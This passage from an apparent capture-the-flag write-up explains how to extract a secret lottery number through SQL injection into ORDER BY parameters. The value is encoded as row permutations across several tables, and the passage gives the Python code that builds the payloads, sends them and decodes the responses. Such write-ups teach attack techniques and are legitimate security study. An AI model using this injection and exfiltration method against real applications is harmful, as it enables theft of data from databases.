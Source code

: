 To decode a number retrieved from the server, we figure out which row was moved where and plug an array of that into the `decode` function:

```python
def sqldecode(r, n, m):
  s = sorted(list(map(lambda x:(r.index(x), x), m)), key=lambda x:x[0])
  encoded = []
  for t in m:
    encoded.append([i[1] for i in s].index(t))
  encoded = tuple(encoded)
  return decode(encoded, n)
```

`r` is the server response, `n` is the number of rows, and `m` is an array the of tickets in their original order.

### Exfiltration

We can now transmit 4 numbers in the ranges `[0,9!)`, `[0,8!)`, `[0,7!)`, and `[0,4!)`. To get the possibilities for the winning lottery ticket, we convert it to a base36 number and use each table to get a range of possible values.

We want to divide the number so that it fits in the range of the first table, `[0,8!)`. The maximum value is `36**12 - 1` (`ZZZZZZZZZZZZ`), so we take that and divide it by `8!`:

```python
>>> ceil((36**12 - 1)/fac(8))
117519378430596
```

Our first piece of data we get is which interval of size 117519378430596 the winning ticket lies in. We then take the winning number modulo 117519378430596, and split that into intervals that give indices up to the size of our next table, `9!`. This process is repeated for each table until we narrow it down to 2,677 values and guess one of them.

A couple helper functions are defined to construct the queries and URL parameters:

```python
param = lambda q: f"winner` IS NOT NULL, {q} -- "
num = lambda m1,m2,m3,d: f"(MOD(MOD(MOD(CAST(CONV(@lotto, 36, 10) AS UNSIGNED), {m1}),{m2}),{m3}) DIV {d})"
```

And we make a guess and hopefully get the flag:

```python
rs = requests.session()
r = rs.get(url, params={
    "order0": param(sqlencode(num(36**12, 36**12, 36**12, 117519378430596), 8, march)),
    "order1": param(sqlencode(num(36**12, 36**12, 117519378430596, 323851903), 9, april)),
    "order2": param(sqlencode(num(36**12, 117519378430596, 323851903, 64257), 7, may)),
    "order3": param(sqlencode(num(117519378430596, 323851903, 64257, 2678), 4, june))
})
r1 = sqldecode(r.text, 8, marcht)
r2 = sqldecode(r.text, 9, aprilt)
r3 = sqldecode(r.text, 7, mayt)
r4 = sqldecode(r.text, 4, junet)
guess = 117519378430596*r1 + 323851903*r2 + 64257*r3 + 2678*r4 + 100
r = rs.post(url, data={"code":base36encode(guess).zfill(12)})
if "CTF" in r.text:
    print(r.text)
```
